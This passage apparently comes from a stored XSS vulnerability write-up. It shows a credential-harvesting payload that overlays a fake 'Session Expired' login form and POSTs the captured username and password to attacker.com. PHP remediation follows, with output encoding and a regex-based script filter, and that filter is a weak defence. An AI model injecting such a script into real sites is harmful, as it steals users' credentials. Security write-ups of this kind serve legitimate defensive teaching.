 ### Scenario 2: Credential Harvesting
```javascript
// Create fake login form overlay
<script>
document.body.innerHTML = `
    <div style="position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.8);z-index:9999;">
        <div style="position:absolute;top:50%;left:50%;transform:translate(-50%,-50%);background:white;padding:20px;">
            <h3>Session Expired - Please Login Again</h3>
            <form onsubmit="stealCreds(event)">
                <input type="text" placeholder="Username" id="fake-user">
                <input type="password" placeholder="Password" id="fake-pass">
                <button type="submit">Login</button>
            </form>
        </div>
    </div>
`;

function stealCreds(e) {
    e.preventDefault();
    fetch('https://attacker.com/steal-creds.php', {
        method: 'POST',
        body: JSON.stringify({
            user: document.getElementById('fake-user').value,
            pass: document.getElementById('fake-pass').value
        })
    });
}
</script>
```

## Remediation

### Immediate Fixes

1. **Output Encoding**: Properly encode all user data before display
```php
function display_comment($comment) {
    echo "<div class='comment'>";
    echo "<p>" . htmlspecialchars($comment['text'], ENT_QUOTES, 'UTF-8') . "</p>";
    echo "<small>By: " . htmlspecialchars($comment['author'], ENT_QUOTES, 'UTF-8') . "</small>";
    echo "</div>";
}
```

2. **Input Validation**: Implement server-side input filtering
```php
function sanitize_comment($text) {
    // Remove script tags and dangerous attributes
    $text = preg_replace('/<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/mi', '', $text);
    $text = preg_replace('/on\w+="[^"]*"/i', '', $text);
    return $text;
}
```
